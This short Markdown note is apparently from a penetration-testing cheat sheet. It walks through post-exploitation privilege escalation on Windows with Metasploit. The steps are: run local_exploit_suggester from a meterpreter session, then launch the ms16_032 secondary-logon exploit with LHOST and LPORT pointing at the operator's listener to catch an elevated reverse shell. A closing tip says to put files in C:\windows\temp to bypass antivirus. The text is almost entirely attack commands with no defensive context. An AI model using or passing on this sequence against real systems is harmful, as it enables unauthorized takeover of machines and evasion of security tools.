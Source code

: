 
---

### Use Scanners/Exploit in meterpreter session

```sh
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```
#### Pick and use a suggested exploit

```shell
Post module suggests:
   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   exploit/windows/local/ms10_092_schelevator
```
#### Choose Exploit
```sh
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST <your_ip>
set LPORT <your_port>
exploit

```

> [!NOTE] Title
> Choose different `LPORT`, Because you will get new shell session with elevated user.


> [!NOTE]
> put files in C:\windows\temp. So you may bypass AV. But you won't be able to list this directory.

